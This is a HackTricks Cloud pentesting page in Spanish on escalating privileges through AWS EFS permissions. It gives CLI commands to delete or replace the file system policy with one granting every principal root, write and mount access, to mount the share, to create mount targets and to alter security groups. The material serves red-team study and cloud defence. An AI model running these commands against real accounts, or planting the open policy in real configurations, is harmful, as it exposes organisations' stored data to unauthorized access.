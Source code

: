 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Más **info sobre EFS** en:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Recuerda que para montar un EFS necesitas estar en una subred donde el EFS esté expuesto y tener acceso a él (grupos de seguridad). Si esto está sucediendo, por defecto, siempre podrás montarlo, sin embargo, si está protegido por políticas de IAM, necesitas tener los permisos adicionales mencionados aquí para acceder a él.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Con cualquiera de esos permisos, un atacante puede **cambiar la política del sistema de archivos** para **darte acceso** a él, o simplemente **eliminarlo** para que se otorgue el **acceso por defecto**.

Para eliminar la política:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Para cambiarlo:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Con este permiso, un atacante podrá **montar el EFS**. Si el permiso de escritura no se otorga por defecto a todos los que pueden montar el EFS, solo tendrá **acceso de lectura**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Los permisos adicionales `elasticfilesystem:ClientRootAccess` y `elasticfilesystem:ClientWrite` se pueden usar para **escribir** dentro del sistema de archivos después de que esté montado y para **acceder** a ese sistema de archivos **como root**.

**Impacto Potencial:** Privesc indirecto al localizar información sensible en el sistema de archivos.

### `elasticfilesystem:CreateMountTarget`

Si un atacante está dentro de una **subred** donde **no existe un objetivo de montaje** del EFS. Podría simplemente **crear uno en su subred** con este privilegio:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Privesc indirecto al localizar información sensible en el sistema de archivos.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

En un escenario donde un atacante descubre que el EFS tiene un objetivo de montaje en su subred pero **ningún grupo de seguridad permite el tráfico**, podría simplemente **cambiar eso modificando los grupos de seguridad seleccionados**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Impacto Potencial:** Privesc indirecto al localizar información sensible en el sistema de archivos.

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}
